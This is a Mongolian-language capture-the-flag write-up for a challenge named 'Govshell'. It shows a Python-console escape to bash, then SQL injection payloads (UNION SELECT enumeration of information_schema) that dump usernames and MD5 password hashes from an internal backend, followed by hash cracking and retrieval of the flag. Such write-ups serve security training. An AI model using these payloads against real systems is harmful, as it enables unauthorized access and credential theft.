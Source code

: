 # Govshell
**Category:** Pwn, Web
**Points:** 1000
**Description:**

`ssh gov@218.100.84.106 -i [govshell.key](govshell.key)`

## Writeup
ssh-ээр орох үед python console угтаж байна лээ. Доорх командыг бичээд shell-рүү орно.

```
import os
os.system("/bin/bash")
```

`/hz` нэртэй directory файх бөгөөд ороод үзвэл [/hz/index.html](index.html), [/hz/get_flag.py](get_flag.py) гэсэн 2 файл байв. Формыг бөглөөд илгээх хаяг нь `http://backend.government.local` гэсэн дотоод сүлжээний хаяг юм байна гэж ойлголоо.
shell-ээс гараад python console-руугаа оров. Дараах байдлаар request-үүдээ явуулж болохоор байлаа.

```python
import urllib
data = urllib.urlencode({"username": "", "password": ""})
r = urllib.urlopen("http://backend.government.local", data=data)
r.read()
```
Hint дээр sql injection ашиглаарай гэсэн байсан болохоор шууд injection хийж эхэлье.

username дээр `' OR '1' = '1` гэж явуулахад:
```
type: superuser нууц үг буруу
type: user нууц үг буруу
```

username дээр `' UNION ALL SELECT 1#`, `' UNION ALL SELECT 1, 2#`, `' UNION ALL SELECT 1, 2, 3#` гэж явуулаад сүүлийнх дээр алдаа заалгүй дараах хариу авлаа:
```
type: 2 нууц үг буруу
```
`type: ` гэдэг дээр хоёр дахь field-г хэвлэж байгаа юм байна.

username дээр `' UNION ALL SELECT 1, CONCAT(table_schema, '.', table_name),
3 FROM information_schema.tables WHERE '1' = '1` гэж явуулаад гарсан дараах
мөрийг олов:
```
type: secret.users нууц үг буруу
```

Энэ хүснэгтийн багануудын нэрийг олъё:
`' UNION ALL SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_schema = 'secret' AND table_name = 'users' ORDER BY 'ordinal_position`
```
type: username нууц үг буруу
type: password нууц үг буруу
type: type нууц үг буруу
```

Хэрэглэгчдийн нэрийг олъё: `' UNION ALL SELECT 1, username, 3 FROM secret.users WHERE '1' = '1`
```
type: bat нууц үг буруу
type: dorj нууц үг буруу
```

Харгалзах нууц үгүүдийг олъё: `' UNION ALL SELECT 1, password, 3 FROM secret.users WHERE '1' = '1`
```
type: c44a471bd78cc6c2fea32b9fe028d30a нууц үг буруу
type: eb35db8a8ec54b209f125570b8e4ee0e нууц үг буруу
```

online md5 тайлагч [сайтаас](https://hashkiller.co.uk/md5-decrypter.aspx) хайж үзвэл `c44a471bd78cc6c2fea32b9fe028d30a`-г тайлж чадаж байна.

Ингээд `username: bat, password: asdfghjkl` гэсэн утгыг бөглөж илгээснээр flag-г гаргаж авлаа:

```
type: superuser
hz{0abc6322dc2040da457d1cb6303d98a0}
```

